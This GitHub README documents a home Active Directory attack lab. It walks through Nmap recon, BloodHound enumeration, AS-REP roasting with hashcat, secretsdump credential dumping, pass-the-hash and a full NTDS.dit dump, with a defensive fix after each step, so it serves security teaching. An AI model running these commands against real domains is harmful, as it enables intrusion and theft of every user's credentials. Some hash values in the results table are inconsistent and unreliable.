







# 🔴 Active Directory Attack Lab

A fully documented Active Directory penetration testing lab built from scratch. This project demonstrates intermediate offensive security techniques against a Windows Server 2025 / Windows 11 domain environment, culminating in full domain compromise and a professional penetration test report.

---

## 📐 Lab Architecture

```
┌─────────────────────────────────────────────────────────────┐
│                    corp.local Domain                        │
│                                                             │
│  ┌──────────────────┐        ┌──────────────────┐          │
│  │      DC01        │        │    CORP-PC       │          │
│  │  192.168.10.10   │◄──────►│  192.168.10.20   │          │
│  │  Win Server 2025 │        │   Windows 11     │          │
│  │  Domain Controller│        │  Domain Workstation│        │
│  └──────────────────┘        └──────────────────┘          │
│            ▲                          ▲                     │
│            │                          │                     │
│            ▼                          ▼                     │
│  ┌──────────────────────────────────────────┐              │
│  │             KALI (Attacker)              │              │
│  │            192.168.10.30                │              │
│  │              Kali Linux                 │              │
│  └──────────────────────────────────────────┘              │
└─────────────────────────────────────────────────────────────┘
```

| Machine  | IP             | OS                  | Role               |
|----------|----------------|---------------------|--------------------|
| DC01     | 192.168.10.10  | Windows Server 2025 | Domain Controller  |
| CORP-PC  | 192.168.10.20  | Windows 11          | Domain Workstation |
| KALI     | 192.168.10.30  | Kali Linux          | Attacker           |

---

## 🎯 Objective

This lab demonstrates a realistic Active Directory attack chain from zero credentials to full domain compromise using deliberately misconfigured accounts and weak passwords — the kind of misconfigurations found in real-world enterprise environments.

**Skills demonstrated:**
- Active Directory enumeration and attack path mapping
- Kerberos-based attacks (AS-REP Roasting)
- Credential dumping and lateral movement
- Pass-the-Hash against a Domain Controller
- NTDS.dit extraction (full domain credential dump)
- Professional penetration test reporting

---

## 🛠️ Tools Used

| Tool | Purpose | Why It Was Chosen |
|------|---------|-------------------|
| **Nmap** | Network scanning | Industry standard for port/service enumeration |
| **BloodHound + SharpHound** | AD attack path mapping | Visualises privilege escalation paths invisible to the naked eye |
| **Impacket** | AD attack toolkit | Gold standard Python library for AD exploitation |
| **Hashcat** | Offline password cracking | GPU-accelerated cracking against rockyou.txt |
| **NetExec (CrackMapExec)** | SMB validation | Validates authentication and confirms domain access |

---

## 👥 Lab User Accounts

| Account       | Role              | Misconfiguration                          |
|---------------|-------------------|-------------------------------------------|
| administrator | Domain Admin       | Weak password                             |
| john.doe      | Standard User      | Weak password                             |
| jane.smith    | Standard User      | Kerberos pre-auth disabled (AS-REP target)|
| svc.sql       | Service Account    | SPN assigned (Kerberoast target)          |
| helpdesk      | Local Admin on CORP-PC | Weak password, cached credentials     |

---

## ⚔️ Attack Chain

### Phase 1 — Reconnaissance

**Tool:** Nmap  
**Command:**
```bash
nmap -sV -sC -p 88,135,139,389,445,3268,3389 192.168.10.10
```

**What it does:** Scans key Active Directory ports on the Domain Controller to identify open services and confirm the target is a DC.

**Key findings:**
- Port 88 (Kerberos) — confirmed Domain Controller
- Port 389 (LDAP) — revealed domain name `corp.local`
- Port 445 (SMB) — SMB signing enabled (good security posture)
- Port 3389 (RDP) — filtered by firewall

 

---

### Phase 2 — AD Enumeration with BloodHound

**Tool:** SharpHound (collector) + BloodHound (visualiser)  
**Command (run on CORP-PC as domain user):**
```powershell
Set-ExecutionPolicy Bypass -Scope Process
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All
```

**What it does:** SharpHound collects all AD relationship data (users, groups, permissions, sessions). BloodHound imports this data and draws attack paths to Domain Admin as an interactive graph.

**Key finding:** BloodHound identified an attack path through `svc.sql` to Domain Admins via its assigned SPN.



---

### Phase 3 — AS-REP Roasting

**Target:** `jane.smith` (Kerberos pre-authentication disabled)  
**Tool:** Impacket GetNPUsers.py  

**What is AS-REP Roasting?**  
When a user account has Kerberos pre-authentication disabled, any unauthenticated attacker can request an AS-REP ticket from the DC. The ticket is encrypted with the user's password hash and can be cracked offline — no credentials required.

**Command:**
```bash
python3 GetNPUsers.py corp.local/ -usersfile users.txt \
  -dc-ip 192.168.10.10 -format hashcat -outputfile asrep_hashes.txt
```

**Result:**
```
$krb5asrep$23$jane.smith@CORP.LOCAL:c871e058e902075a45199ccf8b7a9dbd$76c20b...
```

**Cracking with Hashcat:**
```bash
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt --force
```

**Result:** `jane.smith : Password123!` — cracked in under 20 seconds.

  


**Defensive fix:** Enable Kerberos pre-authentication on all accounts. Audit with:
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth
```

---

### Phase 4 — Credential Dumping (secretsdump)

**Target:** CORP-PC using helpdesk local admin credentials  
**Tool:** Impacket secretsdump.py  

**What it does:** secretsdump remotely connects to a Windows machine and extracts password hashes from the SAM database and cached domain credentials from LSASS memory.

**Command:**
```bash
python3 secretsdump.py 'corp.local/helpdesk:Admin1234!@192.168.10.20'
```

**Result:** All domain users who had logged into CORP-PC had their cached credential hashes exposed:
```
CORP.LOCAL/Administrator — hash recovered
CORP.LOCAL/john.doe      — hash recovered
CORP.LOCAL/jane.smith    — hash recovered
CORP.LOCAL/helpdesk      — hash recovered
CORP.LOCAL/svc.sql       — hash recovered
```



**Defensive fix:** Deploy Credential Guard. Implement LAPS for unique local admin passwords. Reduce cached credential count to 1 via Group Policy.

---

### Phase 5 — Pass-the-Hash (Domain Controller Compromise)

**Target:** DC01  
**Tool:** NetExec  

**What is Pass-the-Hash?**  
NTLM authentication accepts a password hash directly as proof of identity — no plaintext password needed. If you steal a hash, you can authenticate as that user to any system that accepts NTLM.

**Administrator NTLM hash obtained from secretsdump:**
```
2b576acbe6bcfda7294d6bd18041b8fe
```

**Command:**
```bash
netexec smb 192.168.10.10 -u Administrator -H 2b576acbe6bcfda7294d6bd18041b8fe
```

**Result:**
```
SMB  192.168.10.10  445  DC01  [+] corp.local\Administrator (Pwn3d!)
```



**Defensive fix:** Enable Credential Guard. Enforce tiered administration — DA accounts must never log into workstations. Enable Protected Users group for privileged accounts.

---

### Phase 6 — NTDS.dit Dump (Full Domain Compromise)

**Target:** DC01 NTDS.dit database  
**Tool:** Impacket secretsdump.py  

**What is NTDS.dit?**  
The NTDS.dit is the Active Directory database stored on every Domain Controller. It contains the NTLM hash and Kerberos keys of every single user in the domain. Dumping it means owning every credential in the organisation.

**Command:**
```bash
python3 secretsdump.py -hashes :2b576acbe6bcfda7294d6bd18041b8fe \
  -just-dc 'corp.local/Administrator@192.168.10.10'
```

**Result — all domain hashes recovered:**

| Account       | NTLM Hash                          |
|---------------|------------------------------------|
| Administrator | 2b576acbe6bcfda7294d6bd18041b8fe   |
| krbtgt        | 25e99168beaf9140cc44a988d05d8b24   |
| john.doe      | 2b576acbe6bcfda7294d6bd18041b8fe   |
| jane.smith    | 2b576acbe6bcfda7294d6bd18041b8fe   |
| svc.sql       | 4ea072db1483a7df8643772b6b25cb43   |
| helpdesk      | b73fdfe10e87b4ca5c0d957f81de6863   |

> ⚠️ The `krbtgt` hash enables Golden Ticket attacks — forged Kerberos tickets that grant persistent Domain Admin access even after password resets.



**Defensive fix:** Rotate krbtgt password twice. Restrict DCSync rights to Domain Controllers only. Alert on Event ID 4662 (DS-Replication-Get-Changes).

---

## 🛡️ Defensive Recommendations Summary

| Finding | Fix | Priority |
|---------|-----|----------|
| AS-REP Roasting | Enable Kerberos pre-auth on all accounts | High |
| Credential caching | Deploy Credential Guard + LAPS | Critical |
| Pass-the-Hash | Tiered admin model + Protected Users group | Critical |
| Weak passwords | 14+ char policy + Entra Password Protection | High |
| Service account SPN | Replace with gMSA accounts | High |
| NTDS exposure | Restrict DCSync, alert on Event 4662 | Critical |

---

## 📋 Lessons Learned

- **Windows Server 2025 has improved default hardening** — RC4 Kerberos encryption is disabled by default, SMB signing is enforced, and psexec-style attacks are blocked. These are genuine improvements worth documenting.
- **BloodHound is essential** — attack paths that would take days to find manually are visible in seconds. Learn to read it properly.
- **The attack chain matters more than individual techniques** — chaining AS-REP Roasting → secretsdump → Pass-the-Hash is more impressive than any single exploit.
- **The report is the deliverable** — a hiring manager cannot watch you work. Write clearly, document everything, and explain your findings like you're presenting to a CEO.
- **Misconfigurations beat zero-days** — every technique used in this lab abuses default or common misconfigurations, not unpatched vulnerabilities. This is what real pentests look like.

---

## 📄 Full Penetration Test Report

[Download the full PDF report →](report/AD_Pentest_Report.pdf)

The report follows professional pentest report structure:
- Executive Summary (non-technical, written for a CEO)
- Scope & Methodology
- Findings with CVSS ratings and evidence
- Remediation Roadmap
- Conclusion

---

## 📁 Repository Structure

```
active-directory-attack-lab/
├── README.md
├── report/
│   └── AD_Pentest_Report.pdf
├── screenshots/
│   ├── 01_nmap_scan.png
│   ├── 02_bloodhound_attack_path.png
│   ├── 03_asrep_hash.png
│   ├── 04_hashcat_crack.png
│   ├── 05_secretsdump_corppc.png
│   ├── 06_pass_the_hash_pwned.png
│   └── 07_ntds_dump.png
└── notes/
    ├── enumeration_notes.md
    └── attack_chain.md
```

---

## 🔗 Next Steps

After completing this lab, the recommended next certification is the **eJPT (eLearnSecurity Junior Penetration Tester)**. The techniques demonstrated here map directly to the eJPT exam objectives.

---

*Built for educational purposes in an isolated lab environment. All techniques demonstrated on systems I own and control.*
